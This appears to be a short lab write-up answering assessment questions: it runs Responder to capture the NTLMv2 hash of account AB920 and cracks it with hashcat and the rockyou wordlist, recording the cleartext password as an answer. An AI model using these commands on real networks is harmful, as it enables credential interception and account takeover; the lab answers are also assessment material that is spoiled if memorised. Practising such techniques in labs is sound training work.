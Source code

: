**Run responder**

```zsh
sudo responder -I ens224 -v
```

We get the [hash](../docs/assess_ab920_hash.txt) of the account `AB920`

- **Answer:** AB920

![](../imgs/Lab/Lab28/2.png)

## **What is this user's cleartext password?**

Use `hashcat` to crack the hash

```zsh
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

![](../imgs/Lab/Lab28/3.png)

We get the password `weasal`

- **Answer:** weasal

![](../imgs/Lab/Lab28/4.png)
